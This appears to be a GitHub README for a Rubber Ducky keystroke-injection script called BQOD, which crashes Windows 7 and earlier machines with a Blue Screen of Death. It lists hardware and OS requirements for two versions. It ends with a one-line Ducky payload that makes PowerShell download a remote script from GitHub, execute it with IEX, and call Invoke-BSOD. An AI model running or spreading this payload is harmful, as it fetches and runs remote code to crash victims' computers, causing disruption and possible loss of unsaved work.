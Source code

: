 # BQOD-tHE_bLUE_qUACK_oF-dEATH-
A script for Rubber Ducky which uses the Invoke-bsod powershell technique to trigger a Blue Screen of Death

</BR>

</BR>


https://github.com/peewpw/Invoke-BSOD


</BR>

![Alt text](https://github.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/blob/master/img/DUCKY-KILLERS.jpg)


</BR>

<h2>v1</h2>

</br>

<h3> Requirements</h3>

</br>

Twin Duck Firmware

Rubbe Ducky Must be Named "_"

<h3>Os Compatibility<h3>
  
</BR>

Windows 7 or Earlier

</BR>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/master/img/BQOD.JPG)

</BR>

<h2>v2</h2>

</br>

<h3>Requirements</h3>

</br>

None

</BR>

<h3>Os Compatibility<h3>

</BR>

Windows 7 or Earlier

</BR>

STRING powershell IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD

</BR>
